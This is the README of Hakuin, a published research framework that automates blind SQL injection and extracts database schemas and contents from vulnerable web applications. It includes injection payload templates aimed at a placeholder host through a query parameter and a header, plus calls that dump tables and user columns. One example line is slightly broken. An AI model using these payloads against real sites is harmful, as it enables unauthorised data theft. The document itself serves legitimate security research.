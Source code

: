 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) inference optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract textual data in databases (DB) from vulnerable web applications. To speed up the process, Hakuin uses pre-trained language models for DB schemas and adaptive language models in combination with opportunistic string guessing for DB content.

Hakuin been presented at academic and industrial conferences:
- [IEEE Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023

Also, make sure to read our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) or see the [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
pip install hakuin
```
Developers should install the package locally and set the `-e` flag for editable mode:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import requests
from hakuin import Requester

class StatusRequester(Requester):
    def request(self, ctx, query):
        r = requests.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status_code == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = requests.get(f'http://vuln.com/', headers=headers)
        return 'found' in r.content.decode()
```

To start infering data, use the `Extractor` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Currently, Hakuin supports SQLite and MySQL DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Inferring SQLite DBs
```python
from hakuin.dbms import SQLite
from hakuin import Extractor, Requester

class StatusRequester(Requester):
    ...

exf = Extractor(requester=StatusRequester(), dbms=SQLite())
```

##### Example 2 - Inferring MySQL DBs
```python
from hakuin.dbms import MySQL
...
exf = Extractor(requester=StatusRequester(), dbms=MySQL())
```

Now that eveything is set, you can start inferring DB schemas.

##### Example 1 - Inferring DB Schemas
```python
# strategy:
#   'binary':   Use binary search
#   'model':    Use pre-trained models
schema = exf.extract_schema(strategy='model')
```

##### Example 2 - Inferring DB Schemas with Metadata
```python
# metadata:
#   True:   Detect column settings (data type, nullable, primary key)
#   False:  Pass
schema = exf.extract_schema(strategy='model', metadata=True)
```

##### Example 3 - Inferring only Table/Column Names
```python
tables = exf.extract_table_names(strategy='model')
columns = exf.extract_column_names(table='users', strategy='model')
```

Once you know the schema, you can extract the actual content.

##### Example 1 - Inferring Textual Columns
```python
# strategy:
#   'binary':       Use binary search
#   'fivegram':     Use five-gram model
#   'unigram':      Use unigram model
#   'dynamic':      Dynamically identify the best strategy. This setting
#                   also enables opportunistic guessing.
res = exfiltrate_text_data(table='users', column='address', strategy='dynamic'):
```

More examples can be found in the `tests` directory.



## For Researchers
This repository is maintained to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```

